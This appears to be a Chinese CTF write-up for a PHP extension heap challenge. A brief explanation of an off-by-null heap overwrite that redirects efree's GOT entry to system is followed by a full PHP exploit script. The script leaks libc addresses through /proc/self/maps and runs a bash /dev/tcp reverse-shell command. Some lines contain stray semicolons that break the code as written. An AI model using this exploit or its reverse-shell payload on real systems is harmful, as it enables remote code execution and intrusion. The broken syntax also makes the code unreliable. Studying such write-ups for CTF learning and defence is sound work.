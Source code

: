 这里选择一个没有被初始化过bin的size大小，这样得到的第一个是页对齐的，就是低字节是零字节  
然后addhacker第一次分配时候第一个chunk零字节溢出改到此时链表第一个chunk的next部分低字节，  
然后再次addhacker，此时申请的第二个chunk将原来的第一次分配的第一个chunk分配到，  
然后此时可以改原来的第一个chunk的chunk2ptr和size（edithacker要用），然后覆盖为efree的got表地址，  
然后edithacker改为system就行，最后addhacker将申请的第二个chunk存放命令就行，然后removehacker掉最后addhacker的index

exp
---

```php
<?php
$heap_base = 0;
$libc_base = 0;
$libc = "";
$mbase = "";

function u64($leak){
    $leak = strrev($leak);
    $leak = bin2hex($leak);
    $leak = hexdec($leak);
    return $leak;
}

function p64($addr){
    $addr = dechex($addr);
    $addr = hex2bin($addr);
    $addr = strrev($addr);
    $addr = str_pad($addr, 8, "\x00");
    return $addr;
}

function leakaddr($buffer){
    global $libc,$mbase;
    $p = '/([0-9a-f]+)\-[0-9a-f]+ .* \/usr\/lib\/x86_64-linux-gnu\/libc.so.6/';
    $p1 = '/([0-9a-f]+)\-[0-9a-f]+ .*  \/usr\/local\/lib\/php\/extensions\/no-debug-non-zts-20230831\/vuln.so/';
    preg_match_all($p, $buffer, $libc);
    preg_match_all($p1, $buffer, $mbase);
    return "";
}

function leak(){
    global $libc_base, $module_base, $libc, $mbase;
    ob_start();
    include("/proc/self/maps");
    $buffer = ob_get_contents();
    ob_end_flush();
    leakaddr($buffer);
    $libc_base=hexdec($libc[1][0]);
    $module_base=hexdec($mbase[1][0]);
}

function main(){
    $cmd = 'bash -c "bash -i >& /dev/tcp/127.0.0.1/6666 0>&1"';
    leak();
    global $libc_base, $module_base;
    addHacker(str_repeat("\x11", 0x8), str_repeat("\x11", 0x30));
    addHacker(str_pad(p64($module_base + 0x4038).p64(0xff), 0x40, "\x11");, str_repeat("\x11", 0x2f));
    addHacker(str_pad($cmd, 0x40, "\x00"), "1");
    editHacker(0, p64($libc_base + 0x4c411););
    removeHacker(2);
}

```
